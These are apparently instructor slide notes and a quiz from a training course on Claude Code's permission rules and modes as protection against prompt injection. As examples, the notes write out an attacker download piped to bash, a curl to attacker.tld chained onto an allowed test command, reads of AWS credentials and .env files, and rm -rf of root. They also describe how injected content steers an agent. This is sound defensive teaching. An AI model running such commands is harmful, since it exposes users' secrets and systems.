



# Session 2 — Permission rules and modes

> **Length**: 20 min teaching + 10 min quiz/discussion. **Position**: first mitigation session. Builds on Session 1's threat model — permissions are where the harness refuses to be steered. **One idea**: rules and modes are the in-process control layer, enforced by Claude Code itself rather than by the model.

---

## Slide 1 — The model is steerable; the harness isn't

- **Session 1**: prompt injection can steer Claude into trying bad tool calls
- **Session 2**: permission rules and permission modes are where the harness refuses to go along
- Enforced by Claude Code, **not** by the LLM
- Same enforcement-boundary idea extends in Session 3 (sandbox = OS-enforced)

> - Session 1 closed on "defaults are a starting point."
>   - This session is the first customization layer on top of those defaults.
> - The central claim: the model is steerable and unpredictable;
>   - the harness around it is not.
>   - Permissions are evaluated by Claude Code as a deterministic check before any tool call runs.
> - A `CLAUDE.md` line saying "always run `rm -rf` carefully" is advisory.
>   - It shapes what Claude tries, but it can be talked around by adversarial input.
> - A `deny: Bash(rm -rf *)` rule in `settings.json` is enforced.
>   - No amount of clever prompting changes what the harness will allow.
> - Same idea, one layer deeper: in Session 3 the OS itself enforces the sandbox.
>   - Each layer reduces what a compromised Claude can do.
> - _Source_: https://code.claude.com/docs/en/permissions
>   - "Permission rules are enforced by Claude Code, not by the model. Instructions in your prompt or `CLAUDE.md` shape what Claude tries to do, but they don't change what Claude Code allows."

---

## Slide 2 — Two mechanisms: permission rules and permission modes

- **Rule**: a per-tool-call pattern. `Bash(npm test *)`, `Read(./src/**)`, `WebFetch(domain:github.com)`
- **Mode**: a session-wide policy floor that decides what happens when **no rule matches**
- They **layer**: rules first, mode catches the rest

> - A rule is a pattern attached to a single tool.
>   - `Bash(npm test *)` controls one shape of Bash command.
>   - `Read(./src/**)` controls reads of files under `./src/`.
>   - `WebFetch(domain:github.com)` controls fetches to that domain.
> - Each rule lives in one of three buckets: `deny`, `ask`, or `allow`.
>   - Deny blocks the call outright.
>   - Ask forces a prompt.
>   - Allow lets it through without asking.
> - A mode is the session-wide policy floor.
>   - It controls what happens when none of your rules match a given tool call.
>   - It also controls which kinds of calls bypass the rule layer entirely.
> - **Why both exist**: a rule covers one specific pattern; a mode covers everything else.
>   - You can't enumerate every possible Bash command in advance.
>   - So the mode is the catch-all that decides — prompt, auto-approve, or auto-deny — when no rule matches.
> - On each tool call, rules are checked first.
>   - If nothing matches, the mode's default behavior kicks in.
>   - They don't fight — they layer.
> - **Order note**: mode is what you encounter first when you launch Claude Code; rules accrete over time.
> - We'll cover the six modes at a glance next, then dive into rules in depth, then come back to each mode in detail.
> - _Sources_: https://code.claude.com/docs/en/permissions (rule syntax); https://code.claude.com/docs/en/permission-modes
>   - "`--permission-mode` flag" confirms the CLI flag.
>   - "Modes set the baseline. Layer permission rules on top."
> - This session presents the concepts, but does not cover the matter exhaustively, read the docs

---

## Slide 3 — The six modes at a glance

| Mode                | Runs without asking                                  | Best for                            |
| ------------------- | ---------------------------------------------------- | ----------------------------------- |
| `plan`              | Reads only — refuses edits entirely                  | Exploring an unfamiliar codebase    |
| `default`           | Reads only                                           | Getting started, sensitive work     |
| `acceptEdits`       | Reads, edits, common filesystem commands             | Iterating on code you're reviewing  |
| `auto` _(preview)_  | Everything, with background classifier checks        | Long tasks, reducing prompt fatigue |
| `dontAsk`           | Only pre-approved tools (fails closed)               | Locked-down CI and scripts          |
| `bypassPermissions` | Everything (fails open, two narrow circuit breakers) | Isolated containers and VMs only    |

- Ordered most-restrictive to least
- Deep dives at the end of the session — for now, hold the map

> - The deep-dive slides at the end of this session fill in what each mode auto-approves, what it still prompts for, and the sharp edges.
>   - This slide is just the map.
> - `plan` and `default` both only auto-allow reads.
>   - `plan` is more restrictive because it refuses edits outright even if you'd approve the prompt.
>   - `default` would have prompted and let you allow.
> - `dontAsk` and `bypassPermissions` are opposites.
>   - "Fails closed" = auto-deny anything not explicitly allowed. That's `dontAsk`.
>   - "Fails open" = auto-allow anything not explicitly denied. That's `bypassPermissions`.
>   - Borrowed from security/reliability engineering: a fail-closed system locks down when a check can't run; a fail-open system lets traffic through.
>   - Both exist for non-interactive use cases where there's no human to prompt.
> - Switch modes mid-session with `Shift+Tab`; status bar shows the current mode.
>   - `dontAsk` and the danger modes never appear in the cycle — set them at startup with `--permission-mode`.
> - _Source_: https://code.claude.com/docs/en/permission-modes (Available modes table; "Switch permission modes" tabs; Protected paths section).

---

## Slide 4 — Where rules live

- `settings.json` files at three main scopes: managed, project, user
- Plus CLI flags and `.claude/settings.local.json` for personal overrides
- All scopes merge into one effective rule set per session
- Example: [Trail of Bits recommended config](https://github.com/trailofbits/claude-code-config/blob/main/settings.json)

> - Let's talk about permission rules
>   - Where they live (this slide), how they're evaluated, what they look like, and the gotchas where they don't match what you think.
>   - Back to each mode in depth at the end.
> - Five places permission rules can come from.
>   - Managed: set by your organization's admin in OS-level policy files.
>   - Project: `.claude/settings.json` checked into the repo (shared across the team).
>   - User: `~/.claude/settings.json` on your machine (your defaults across all projects).
>   - Local project: `.claude/settings.local.json` (gitignored — your personal overrides for this repo).
>   - CLI: `--allowedTools` and `--disallowedTools` flags for per-invocation adjustments.
> - All scopes merge into one effective rule set per session.
>   - Deny rules from any scope take precedence
> - Example: [Trail of Bits recommended config](https://github.com/trailofbits/claude-code-config/blob/main/settings.json)
> - _Source_: https://code.claude.com/docs/en/settings ("Settings files" section).

---

## Slide 5 — The evaluation model

- **deny → ask → allow**, first match wins
- A **deny anywhere beats an allow anywhere** — a project deny blocks a user allow, a user deny blocks a project allow
- `ask` is checked **before** `allow` — if both match, you get prompted

> - Three buckets, evaluated in fixed order: deny first, then ask, then allow.
>   - If nothing matches in any bucket, the mode's default behavior applies.
> - "First match wins" within each bucket and across the order.
>   - Once a matching deny is found, evaluation stops.
>   - Even broader allow rules below it have no effect.
> - **Cross-scope precedence**: deny rules from every settings file — managed, project, user, command-line — all merge.
>   - A deny at any one of those scopes blocks an allow at any other.
> - **Ask-vs-allow direction**: a common misconception is that adding a broad `allow` will silence a more specific `ask`.
>   - The opposite is true.
>   - Because `ask` is evaluated before `allow`, an ask rule that matches the call wins — the user still gets prompted.
> - _Source_: https://code.claude.com/docs/en/permissions
>   - "Rules are evaluated in order: deny -> ask -> allow. The first matching rule wins, so deny rules always take precedence."
>   - "If a tool is denied at any level, no other level can allow it."

---

## Slide 6 — Rule anatomy

- Same shape for every tool: `Tool(pattern)`

| Tool     | Example                       |
| -------- | ----------------------------- |
| Bash     | `Bash(npm run test *)`        |
| Read     | `Read(./src/**)`              |
| Edit     | `Edit(/src/**/*.ts)`          |
| WebFetch | `WebFetch(domain:github.com)` |
| MCP      | `mcp__puppeteer__*`           |
| Agent    | `Agent(Explore)`              |

> - Every rule is `Tool` or `Tool(specifier)`.
>   - Without parens, the rule matches all uses of that tool.
>   - With parens, the specifier scopes it.
> - **Bash**: pattern matches the command line.
>   - Wildcards with `*`. Covered in detail in the next three slides.
> - **Read** and **Edit**: path patterns follow gitignore semantics.
>   - `//`-prefix for absolute filesystem paths is the common surprise — `/path` is relative to the project root, not the filesystem root.
> - **WebFetch**: `domain:` prefix scopes to a specific domain.
>   - WebFetch rules do not constrain `curl` or `wget` invoked through Bash — that's a Bash rule.
> - **MCP**: `mcp__SERVER__TOOL` names a specific tool from a specific server.
>   - `mcp__SERVER__*` matches everything from that server.
> - **Agent**: `Agent(AgentName)` controls which subagents Claude can spawn.
>   - Deny rules and the `--disallowedTools` flag both work.
> - _Source_: https://code.claude.com/docs/en/permissions (Permission rule syntax + Tool-specific permission rules sections).

---

## Slide 7 — Wildcards: the space matters

- `Bash(npm install*)` — matches `npm installfoo`
- `Bash(npm install *)` — does **not** match `npm installfoo`
- The **space before `*`** enforces a word boundary

> - This is the single most common rule-writing mistake.
>   - A trailing `*` without a preceding space lets the wildcard absorb arbitrary letters into the previous token.
> - _Source_: https://code.claude.com/docs/en/permissions
>   - "The space before `*` matters: `Bash(ls *)` matches `ls -la` but not `lsof`, while `Bash(ls*)` matches both."

---

## Slide 8 — Compound commands

- `Bash(safe-cmd *)` does **not** authorize `safe-cmd && rm -rf .`
- Each subcommand matched independently
- Recognized separators: `&&`, `||`, `;`, `|`, `|&`, `&`, newlines

> - When Claude proposes a compound command, Claude Code splits on shell operators and matches each subcommand independently.
>   - The compound is allowed only if every piece is allowed.
> - The full list of recognized separators per docs: `&&`, `||`, `;`, `|`, `|&`, `&`, and newlines.
> - _Source_: https://code.claude.com/docs/en/permissions
>   - "The recognized command separators are `&&`, `||`, `;`, `|`, `|&`, `&`, and newlines. A rule must match each subcommand independently."

---

## Slide 9 — The always-free read-only Bash set

- `ls`, `cat`, `echo`, `pwd`, `head`, `tail`, `grep`, `find`, `wc`, `which`, `diff`, `stat`, `du`, `cd`, read-only `git`
- Run **without a prompt in every mode**
- Set is not configurable; tighten only with explicit `ask` or `deny`
- **By default, Claude can read any file readable to your user account, in any dir**

> - These commands are baked in as read-only and skip the prompt step in every permission mode.
>   - Including `plan` and `dontAsk`.
> - You can't add to this set in your allow list — they're already free.
>   - To require a prompt for one of them, write an explicit `ask` or `deny` rule for that command.
>   - For example `ask: Bash(cat *)`.
> - **The hazard**: out of the box, with no rules at all, `cat ~/.aws/credentials`, `grep -r SECRET ~/`, or `find / -name '*.env'` all run silently.
>   - No prompt, no entry in the audit trail.
> - Mode alone won't gate read-side risk.
>   - `plan` doesn't help here, because `plan` only refuses _edits_.
>   - If you care about read-side leakage you need explicit rules per command.
> - **Trifecta callback**: this is where the **P** (private data access) leg of the lethal trifecta comes from.
>   - Anything readable to your user account is readable to Claude by default unless you write a rule.
>   - Sandbox in Session 3 closes this by enforcing filesystem boundaries at the OS layer.
> - _Source_: https://code.claude.com/docs/en/permissions
>   - "Claude Code recognizes a built-in set of Bash commands as read-only and runs them without a permission prompt in every mode... The set is not configurable; to require a prompt for one of these commands, add an `ask` or `deny` rule for it."

---

## Slide 10 — `plan`

- Back to modes - we'll go through each permission mode and its behavior
- Reads + read-only Bash to explore
- **Refuses to edit source files** even if you'd approve the prompt
- Best for: investigation, code review, "what would this change?"

> - Plan mode tells Claude to research and propose changes without making them.
>   - Reads work, read-only shell commands work, but edits are blocked regardless of what you'd say at a prompt.
> - Several ways to enter plan mode.
>   - Press `Shift+Tab` once from `default` to enter it.
>   - Or launch with `claude --permission-mode plan`.
> - When Claude finishes planning, it presents a plan and asks how to proceed.
>   - The approve options exit `plan` into a chosen follow-up mode (auto-mode, acceptEdits, or back to default for inline approvals).
>   - To plan again, cycle back.
> - **Trifecta callback**: `plan` removes mutation risk by construction, but does **not** close the **E** (exfiltration) leg.
>   - Edits to source are blocked outright — that's the whole promise of the mode.
>   - Everything else behaves exactly like `default`: `curl`, `wget`, `WebFetch`, etc. still prompt, and a user can still approve them.
>   - To close the exfil channel you need explicit `deny` rules on network tools, or the OS-level network isolation from Session 3.
> - _Source_: https://code.claude.com/docs/en/permission-modes — "Claude reads files, runs shell commands to explore, and writes a plan, but does not edit your source. Permission prompts still apply the same as default mode."

---

## Slide 11 — `default`

- Prompts on first use of any tool that isn't read-only
- Reads run free; writes and Bash prompt

> - This is what you get if you don't pass `--permission-mode` or configure a `defaultMode`.
> - What runs without asking.
>   - Read tools (`Read`, `Grep`, `Glob`) run without prompts.
>   - The always-free Bash set runs without prompts.
>   - Everything else prompts the first time you try it.
> - The "yes, don't ask again" option on each prompt is how you accrete rules over time.
>   - Each acceptance writes an entry to your project or user settings.
> - _Source_: https://code.claude.com/docs/en/permission-modes (Available modes table: "default — Reads only" runs without asking).

---

## Slide 12 — `acceptEdits`

- Auto-approves: file edits + `mkdir`, `touch`, `rm`, `rmdir`, `mv`, `cp`, `sed`
- Scoped to working dir + `additionalDirectories`; everything else prompts
- **Sharp edge**: `rm` and `rmdir` are in the auto-approved set
- Protected paths (`.git`, `.bashrc`, `.mcp.json`, etc.) still prompt

> - Status bar shows `⏵⏵ accept edits on`.
> - The auto-approved filesystem commands are an exact set: `mkdir`, `touch`, `rm`, `rmdir`, `mv`, `cp`, `sed`.
> - `rm` and `rmdir` being in the auto-approved set is materially surprising.
>   - `rm -rf node_modules` inside your working directory runs without a prompt in this mode.
> - Auto-approval is scoped to the working directory and any `additionalDirectories` you've added.
>   - Paths outside that scope still prompt.
>   - Writes to protected paths still prompt.
> - Use this when you're going to look at the diff before committing anyway.
> - _Source_: https://code.claude.com/docs/en/permission-modes — "Auto-approve file edits with acceptEdits mode."

---

## Slide 13 — `auto` _(research preview)_

- Auto-approves **everything**, subject to a background classifier
- Classifier blocks: escalation beyond your request, unknown infra, hostile-content-driven actions
- On entry, broad allow rules (`Bash(*)`, wildcarded interpreters, package-manager runs, `Agent` allows) are **dropped**
- Gated — Max/Team/Enterprise/API plans only, specific newer Sonnet/Opus models, Anthropic API only

> - Auto mode is "no prompts, but a second model reviews each action."
>   - The classifier sees user messages, tool calls, and CLAUDE.md content.
> - On entry, Claude Code automatically drops broad allow rules that would otherwise neuter the classifier.
>   - Blanket `Bash(*)` or `PowerShell(*)`.
>   - Wildcarded interpreters like `Bash(python*)`.
>   - Package-manager run commands.
>   - `Agent` allow rules.
>   - Narrow rules like `Bash(npm test)` survive.
>   - Dropped rules are restored when you leave the mode.
> - The classifier trusts your working directory and your repo's configured remotes.
>   - Anything else is treated as external until you configure trusted infrastructure separately.
>   - Run `claude auto-mode defaults` to see the full block/allow lists.
> - **Sharp edge**: research preview.
>   - Classifier behavior can change between releases.
>   - You're trusting a model to gate another model's actions.
>   - Use it where you trust the general direction, not as a substitute for review on sensitive work.
> - _Source_: https://code.claude.com/docs/en/permission-modes — "Eliminate prompts with auto mode" + the "How the classifier evaluates actions" accordion.

---

## Slide 14 — `dontAsk`

- **Fails closed**: every call that would prompt is auto-denied
- Only `permissions.allow` matches and the always-free read-only Bash set execute
- Explicit `ask` rules are **denied**, not prompted
- For non-interactive runs (CI, scheduled agents)

> - The mirror of `bypassPermissions`.
>   - Where `bypassPermissions` skips prompts by allowing everything, `dontAsk` skips prompts by denying everything that's not explicitly allowed.
> - Counterintuitive subtlety: an `ask: Bash(curl *)` rule under `dontAsk` _blocks_ `curl`.
>   - Because there's no user to prompt, "ask" effectively means "deny."
>   - If you want `curl` to work in `dontAsk`, you need an explicit `allow` rule for it.
> - The intended use case is locked-down CI pipelines and scheduled agents where you've pre-defined exactly what Claude may do.
> - **Operational hazard**: a missing rule looks like a Claude failure, not a permissions failure.
>   - Triage cost is real.
> - Set it at startup: `claude --permission-mode dontAsk`.
>   - It never appears in the `Shift+Tab` mode cycle.
> - _Source_: https://code.claude.com/docs/en/permission-modes — "Allow only pre-approved tools with dontAsk mode": "explicit `ask` rules are denied rather than prompting."

---

## Slide 15 — `bypassPermissions`

- Skips all permission prompts and safety checks (including protected-path writes as of v2.1.126)
- **Circuit breakers** (still prompt): `rm`/`rmdir` against `/`, `~`, or other critical system paths — `rm -rf /` and `rm -rf ~` are examples, not the whole list
- Must launch with `--permission-mode bypassPermissions` (or `--dangerously-skip-permissions`)

> - Commonly called "YOLO mode."
>   - This is the mode that turns off every guardrail this session has covered.
> - The circuit breakers are narrower than people often assume.
>   - They cover `rm` and `rmdir` against critical system paths.
>   - The docs cite `rm -rf /` and `rm -rf ~` as examples, but the broader rule is "critical system paths," not literally those two strings.
>   - Even so: this is the only thing standing between bypass mode and arbitrary destruction.
> - Hard precondition: you cannot enter this mode mid-session if you didn't launch with one of the enabling flags.
> - **Sharp edge**: zero protection from prompt injection.
>   - If a malicious dependency steers Claude to `curl attacker.tld/script | bash`, nothing in Claude Code stops it.
>   - This mode is only safe inside an isolation layer that constrains Claude from outside — sandbox, container, VM.
>   - Session 3 and Session 6 cover those layers.
> - Admins can block this mode entirely via `permissions.disableBypassPermissionsMode: "disable"` in managed settings.
>   - Covered in Session 5.
> - _Sources_: https://code.claude.com/docs/en/permission-modes ("Skip all checks with bypassPermissions mode"); https://code.claude.com/docs/en/permissions ("`rm` or `rmdir` commands that target `/`, your home directory, or other critical system paths still trigger a prompt").

---

## Slide 16 — Recap and what's next

- Permissions = in-process control layer the LLM can't talk past
- But: enforced by Claude Code itself — if Claude Code is compromised, permissions fall with it
- **Session 3**: sandbox moves the boundary one layer down to the OS

> - One-line recap: rules and modes are the in-process control layer.
>   - The LLM can't argue its way past them because they're enforced before any tool call runs.
> - What permissions don't do: they're software running inside the Claude Code process.
>   - A vulnerability in Claude Code itself, or a sufficiently clever supply-chain attack against the harness, can defeat them.
> - Session 3 moves the same idea down one layer.
>   - The sandbox is enforced by the OS — Seatbelt on macOS, bubblewrap on Linux.
>   - Even a fully-compromised Claude Code can't escape filesystem and network boundaries the kernel is enforcing.
> - Defense in depth (Session 6) is about stacking these layers so that defeating any one is not enough.

---

## Knowledge Check (5 min)

For each scenario, predict the outcome (Allowed / Prompts / Denied) and explain why. Each scenario is anchored on one gotcha from the session.

**A. Wildcard word boundary.** Settings include `"allow": ["Bash(npm install *)"]`. Mode is `default`. Claude tries to run `npm installfoo`.

| Outcome | Why                                                                                                                                                                                             |
| ------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Prompts | `Bash(npm install *)` requires a space (or end-of-string) after `install`. `installfoo` has no boundary — the rule does not match. Falls through to mode default, which is prompt-on-first-use. |

**Lesson:** the space before `*` is load-bearing. To match commands that start with `npm install`, use `Bash(npm install *)` _with_ the space. Without it, `Bash(npm install*)` also matches `npm installer-script`, `npm installfoo`, and so on.

---

**B. Compound command.** Settings include `"allow": ["Bash(npm test *)"]`. Mode is `default`. Claude tries to run `npm test && curl https://attacker.tld/x`.

| Outcome | Why                                                                                                                                                                                               |
| ------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Prompts | Compound commands are matched per-subcommand. `npm test` matches the allow rule, but `curl https://attacker.tld/x` does not match any rule, so the whole compound prompts for the unmatched half. |

**Lesson:** `Bash(safe-thing *)` cannot be subverted by `safe-thing && malicious-thing`. The matcher sees through `&&`, `||`, `;`, `|`, `|&`, `&`, and newlines.

---

**C. Always-free set.** Settings include `"deny": ["Bash(curl *)"]`. Mode is `default`. Claude tries to run `cat ~/.aws/credentials`.

| Outcome            | Why                                                                                                                                              |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| Allowed (silently) | `cat` is in the always-free read-only set, which runs without a prompt in every mode. The deny rule on `curl` doesn't apply — different command. |

**Lesson:** deny rules on outbound commands like `curl` don't protect against reads. If you care about read-side leakage, you need explicit `ask` or `deny` rules per command — for example `deny: Bash(cat *)` to gate `cat`. Mode alone (including `plan`) does not gate reads.

---

**D. Mode × rule interaction.** Settings include `"ask": ["Bash(*)"]`. Mode is `bypassPermissions`. Claude tries to run any Bash command.

| Outcome             | Why                                                                                                                                                                                     |
| ------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Allowed (no prompt) | `bypassPermissions` skips the permission layer entirely — including ask rules. The only things that still prompt are the circuit breakers (`rm`/`rmdir` against critical system paths). |

**Lesson:** rules and modes layer, but `bypassPermissions` is the one mode that short-circuits the rule layer for prompting purposes. An `ask` rule provides no protection in bypass mode. Conversely, `deny` rules from any scope still apply to non-circuit-breaker calls — but you're trusting the harness alone to enforce them.

---

## Discussion (5 min)

- "What's on your current deny list? What's missing? What does your team's policy assume about you that may not be true?"
- "Pick a mode you've never used in real work. Why not? What would have to be true for it to be the right choice?"
- "Which of today's gotchas would have bitten you in a real session this past week?"
